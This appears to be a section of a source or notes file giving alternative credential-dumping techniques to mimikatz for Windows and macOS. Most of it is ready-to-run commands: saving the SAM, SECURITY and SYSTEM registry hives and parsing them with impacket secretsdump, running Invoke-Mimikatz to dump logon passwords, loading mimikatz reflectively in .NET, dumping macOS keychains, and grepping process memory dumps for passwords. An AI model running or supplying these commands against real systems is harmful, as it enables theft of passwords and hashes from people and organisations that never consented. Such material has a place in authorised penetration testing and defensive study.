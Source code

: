 ## Alternative Approaches by Platform

### Windows Alternatives to pypykatz/mimikatz

#### 1. Registry-Based Extraction
```bash
# Native Windows tools
reg save HKLM\SAM sam.hive
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM system.hive

# Analysis with impacket
secretsdump.py -sam sam.hive -security security.hive -system system.hive LOCAL
```

#### 2. PowerShell-Based Approaches
```powershell
# Invoke-Mimikatz (PowerShell Empire)
Invoke-Mimikatz -Command "sekurlsa::logonpasswords"

# PowerShell memory access
Get-Process lsass | Select-Object -ExpandProperty Id
# Custom PowerShell memory reading
```

#### 3. .NET Assembly Loading
```csharp
// SafetyKatz approach
Assembly.Load(mimikatzBytes).GetType("Program").GetMethod("Main").Invoke(null, args);
```

### macOS Alternative Approaches

#### 1. Keychain Access Methods
```bash
# Direct keychain access (requires user password)
security dump-keychain -d login.keychain

# Keychain item extraction
security find-generic-password -a username -s service -w

# Keychain file analysis
chainbreaker --dump-all --keychain-password password login.keychain-db
```

#### 2. Memory-Based Extraction
```bash
# Process memory dumping
sudo gcore -o /tmp/process_dump $(pgrep -f target_process)

# Memory string extraction
strings /tmp/process_dump.* | grep -i password
```
